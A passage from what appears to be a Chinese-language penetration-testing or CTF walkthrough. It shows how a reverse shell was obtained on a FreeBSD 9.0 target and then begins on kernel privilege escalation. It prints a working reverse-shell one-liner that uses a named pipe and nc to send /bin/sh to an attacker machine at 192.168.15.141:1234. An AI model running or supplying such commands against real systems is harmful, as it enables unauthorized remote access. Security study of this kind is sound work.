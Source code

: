 反向外壳

我还找到了一种不用另一个文件就能获得反向 shell 的方法。

```
mkfifo pipe;nc 192.168.15.141 1234<pipe|/bin/sh>pipe 2>pipe;rm pipe
```

这类似于 [PentestMonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) 的反向外壳——我无法工作。这一行中发生的事情是，我们使用一个名为`pipe`的 FIFO 命名管道通过端口 1234 将`/bin/sh`发送到我们的机器。命名管道为运行在同一台机器上的进程之间或局域网上的两台机器之间的进程间通信提供了一种方式。在这种情况下，无论什么时候输出到`/bin/sh`，它都会被`pipe`通过 nc 重定向到我们的终端。

# 权限提升

`uname -a`显示主机是 FreeBSD 9.0 版本。

`searchsploit`有两个针对本地权限提升的内核漏洞。

![](img/71db7253d2a0d5e3a0ce5d0eb6ff6a30.png)

searchsploit privesc

服务器已经安装了`gcc`，所以我将尝试在本地编译文件。
我使用`nc`将文件放在服务器上，确切地说是反向 shell 是如何传输的。

